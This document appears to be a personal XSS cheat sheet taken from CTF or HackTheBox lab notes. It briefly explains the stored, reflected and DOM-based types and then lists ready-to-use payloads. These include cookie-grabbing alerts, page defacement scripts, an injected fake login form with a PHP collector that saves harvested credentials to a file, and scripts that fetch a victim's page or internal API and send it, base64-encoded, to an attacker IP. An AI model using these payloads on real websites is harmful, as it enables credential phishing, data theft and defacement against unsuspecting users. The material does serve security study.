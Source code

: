 
| Stored (Persistent)                                                | Reflective (None-Persistent)                           | DOM-Based                                                |
| ------------------------------------------------------------------ | ------------------------------------------------------ | -------------------------------------------------------- |
| User input is stored on the server, and is executed when retrieved | User input is process server side without being stored | User input is processed client side without being stored |
### Payloads - Classics

```bash
<script>alert("XSS")</script>
<script>alert(window.origin)</script>
<script>alert(document.cookie)</script>
<img src="" onerror=alert(window.origin)>
<img src="https://x.x.x.x">
```
### Defacing

```bash
<script>document.title = 'Title Text'</script>
<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://x.x.x.x/images/image.svg"</script>
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Header Text</h1><p style="color: white">by <img src="https://x.x.x.x/images/image.svgg" height="25px" alt="ALT Text"> </p></center>'</script>
```
### Phishing

Fake login form:

```bash
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.87><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

Attacker side - save as index.php:

```bash
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    #header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Start PHP server:

```bash
sudo php -S 0.0.0.0:80
```

Creds should be save in `creds.txt`
### DOM-Based

The `#` signed is a client side parameter processed by the web browser

![[Pasted image 20241119153420.png]]

Does not appear in the View Page Source:

![[Pasted image 20241119153935.png]]

Does appear in the development tools:

![[Pasted image 20241119154106.png]]

### Other Examples

```bash
<script>
fetch("http://alert.htb/index.php?page=messages") //User goes to this site
.then(response => response.text()) // Convert the response to text
.then(data => {
fetch("http://10.10.14.180/?data=" + encodeURIComponent(data));
}) //send the page to the attacker
.catch(error => console.error("Error fetching the messages:", error));
</script> 
```



```bash
<img src='[http://10.10.14.180/missing',](http://10.10.14.180/missing',) onerror='fetch(`[http://10.129.133.59/api/info](http://10.129.133.59/api/info)`).then(res => res.text()).then(text => fetch(`[http://10.10.14.180/OK/$](http://10.10.14.180/OK/$){btoa(text)}`)).catch(err => fetch(`[http://10.10.14.180/OK/$](http://10.10.14.180/OK/$){btoa(err)}`))'></img>
```

On error, go to http://10.129.133.59/api/info
Take the output and base64 it and send to http://10.10.14.180/OK/$